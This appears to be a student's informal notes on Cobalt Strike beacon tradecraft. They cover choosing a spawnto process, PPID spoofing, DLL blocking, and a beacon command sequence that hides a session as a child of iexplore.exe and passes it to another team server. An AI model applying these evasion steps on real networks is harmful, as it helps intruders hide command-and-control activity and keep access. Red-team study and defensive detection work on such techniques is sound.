

 
Session Prepping- Configure "safe" temp process
- use ps
- use ppid
- use spawnto[arch] [path] [args] to change program
- use blockdllsstart to enable DLL blocking
- default is rundll32.exe (this fucking sucks man dont do it)
it's getting late, so im not as formal- powershell.exe aint it my guy. that stands out like a sore thumb
- you dont wanna live there bro lemme reiterate

Inject Payload into different process


====================================================================================================================================
Prep to pass to another Server
beacon> spawnto x86 c:\program files (x86)\internet explorer\iexplore.exe
Now we can pass the session to another team server
beacon> spawn <name of server>
- looking at the new shell, it is a child process of iexplore.exe like we set it to
-
====================================================================================================================================

left off here chief